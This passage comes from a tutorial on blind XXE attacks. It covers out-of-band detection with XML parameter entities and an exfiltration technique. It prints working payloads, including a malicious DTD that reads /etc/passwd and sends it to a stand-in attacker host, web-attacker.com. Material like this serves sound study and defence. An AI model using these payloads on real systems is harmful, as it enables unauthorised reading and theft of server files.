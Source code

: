 This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful.

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD.

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

### Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
```

This DTD carries out the following steps:

-   Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
-   Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
-   Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
-   Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

`http://web-attacker.com/malicious.dtd`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attacker's server.

### Exploiting blind XXE to retrieve data via error messages
